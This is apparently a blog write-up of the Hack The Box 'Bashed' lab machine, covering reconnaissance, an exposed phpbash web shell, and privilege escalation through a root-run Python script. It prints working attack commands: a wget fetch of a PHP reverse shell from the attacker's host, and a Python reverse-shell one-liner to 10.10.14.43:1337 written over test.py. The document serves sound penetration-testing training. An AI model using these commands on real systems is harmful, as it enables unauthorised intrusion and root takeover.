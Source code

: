 ```yaml
---
title: "Bashed - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Bashed
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - htb
  - hackthebox
  - machine
  - easy
  - linux
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Bashed
![](https://kar0nx.github.io/assets/images/writeup/box-bashed.webp)

## Reconnaissance

IP: 10.10.10.68
### NMAP

```
nmap -T4 -A -p- 10.10.10.68
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-18 11:53 EST
Nmap scan report for 10.10.10.68
Host is up (0.031s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=2/18%OT=80%CT=1%CU=30377%PV=Y%DS=2%DC=T%G=Y%TM=67B4
OS:BB2A%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)
OS:SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=8)OPS(O1=M53CST11NW7%O2=M53CS
OS:T11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)WIN(W1=
OS:7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN(R=Y%DF=Y%T=40%W=7210%O=
OS:M53CNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)
OS:T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S
OS:+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=N)U1(
OS:R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=
OS:N%T=40%CD=S)

Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   30.93 ms 10.10.14.1
2   31.03 ms 10.10.10.68

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.59 seconds

```

Nmap scan shows only port  80 http - Apache httpd 2.4.18 is open.

## Website
### Site
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218175813.png)

Let's search for directory

```
ffuf -u http://10.10.10.68/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt   
```

/dev is interesting. and allows dirwalks:

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218180131.png)

## Gaining Access

Clicking on phpbash.php gives shell

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218180342.png)

we can take first flag

### Shell upgrade
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Create rev-shell, set python server and download on site in /uploads folder
of course set nc and we have shell

```
/var/www/html/uploads# wget http://10.10.14.43/a.php
```
### Spawning TTY shell
https://github.com/ahmetgurel/Pentest-Hints/blob/master/Spawning%20a%20TTY%20Shell.md

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

```
sudo -l
```

we cant switch user normal but we can run command as scriptmanager
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218183142.png)


```
sudo -u scriptmanager /bin/bash
```

check for scriptmanager folders:

```
ls -la
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250218183424.png)

we can see 2 files here

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219121148.png)

it looks like test.txt is result from test.py, root have access to it and runs script every few minutes, we can try to overwrite this python code with python reverse shell.
# Privilege Escalation

https://www.revshells.com/

```
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.43\",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);" > test.py
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250219132850.png)

We have root shell 
### Spawning TTY shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can navigate to /root and grab our last flag.